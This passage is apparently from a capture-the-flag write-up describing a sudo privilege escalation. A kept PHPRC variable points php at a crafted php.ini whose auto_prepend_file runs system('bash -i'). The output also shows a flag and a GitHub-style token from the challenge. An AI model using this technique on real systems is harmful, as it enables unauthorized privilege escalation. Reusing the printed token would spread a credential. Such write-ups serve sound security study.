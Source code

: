 Right after that I tried the usual `sudo -l` to understand if I had the ability to run something as the target user:
```
user1@2e38c07ad821:/home/user1$ sudo -l
Matching Defaults entries for user1 on 2e38c07ad821:
    mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+="HOSTNAME KAHLA HELL PHPRC HTTP SHELL"

User user1 may run the following commands on 2e38c07ad821:
    (user-privileged) NOPASSWD: /usr/local/bin/php /dev/null
```

First reaction was: "Snap, is it that easy? Could I really simply run php as the target user and spawn an interactive bash shell via `system("bash -i");`?"  
Then I realized the `/dev/null`, which means "load nothing as input, run it, and exit".  
Before moving to [GTFOBins](https://gtfobins.github.io/) to check if anyone in the past encountered a similar scenario I had a closer look to the `sudo` conf and I noticed that an environment variable called `PHPRC` was kept when running `sudo` commands.  
As I wasn't aware of it I went for some Googling and found this: https://www.php.net/manual/en/configuration.php  
```
For those people who want to use the PHPRC environment variable:
You have to specify the path to the directory containing your php.ini, not the direct path to the php.ini.

Example (php.ini resides in /your/path/php.ini):
right:
export PHPRC=/your/path

wrong:
export PHPRC=/your/path/php.ini
```

Nice, so we could specify where to load the php.ini (the file containing the PHP configurations) from!  
Being a PHP *afecionado*, mainly when it comes to pwning it, I already knew that if you control the php.ini content (it's funny writing this while everyone is yelling at the [Log4J 2.17.0 code injection via a malicious config file](https://logging.apache.org/log4j/2.x/security.html#CVE-2021-44832)) you can add a [auto_prepend_file](https://www.php.net/manual/en/ini.core.php#ini.auto-prepend-file), which basically loads a given PHP file before anything else.  
This was enough to wrap up a working exploit for the privilege escalation:
```
user1@2e38c07ad821:/home/user1$ echo 'auto_prepend_file=/home/user1/a.php' > php.ini
user1@2e38c07ad821:/home/user1$ echo '<?php system("bash -i");' > a.php
user1@2e38c07ad821:/home/user1$ PHPRC=/home/user1/ sudo -u user-privileged /usr/local/bin/php /dev/null
user-privileged@2e38c07ad821:/home/user1$ id
uid=1001(user-privileged) gid=1001(user-privileged) groups=1001(user-privileged)
user-privileged@2e38c07ad821:/home/user1$ cat secret.txt 
Flag=Yogosha{Uchiha_As_a_Service_Is_N0t_SecUr3}
Repo=https://github.com/shisuiYogo/killer
Token=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
```
